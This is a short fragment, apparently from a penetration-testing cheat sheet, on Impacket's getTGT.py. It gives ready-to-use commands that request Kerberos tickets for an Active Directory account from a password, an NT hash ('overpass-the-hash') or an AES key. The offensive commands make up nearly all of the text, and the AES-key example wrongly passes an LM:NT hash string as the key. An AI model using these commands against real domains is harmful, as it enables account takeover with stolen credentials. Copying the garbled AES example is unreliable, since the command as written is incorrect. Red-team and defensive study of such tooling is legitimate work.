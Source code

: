 Given a password, hash or aesKey, it will request a TGT and save it as ccache
```bash
# with a password
getTGT.py $DOMAIN/$USER:$PASSWORD@$TARGET

# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key
getTGT.py -aesKey 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```